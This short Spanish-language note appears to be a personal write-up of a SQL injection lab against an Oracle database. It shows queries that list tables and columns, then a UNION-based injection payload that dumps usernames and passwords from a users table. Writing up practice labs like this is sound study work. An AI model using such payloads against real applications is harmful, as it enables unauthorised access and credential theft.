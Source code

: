 Oracle detected

![[Pasted image 20241223192056.png]]

Extraemos nombres de las tablas (en oracle solo hay una base de datos)

```SQL
SELECT owner, table_name FROM all_tables;
```

![[Pasted image 20241223193731.png]]

```SQL
SELECT column_name,column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```

![[Pasted image 20241223194104.png]]

Dumpeamos los datos con concatenaciones : 

```SQL
'+UNION+SELECT+USERNAME_UKFAPP||':'||PASSWORD_LHYWXK,''+FROM+USERS_HSTQSG+--+-
```

![[Pasted image 20241223194456.png]]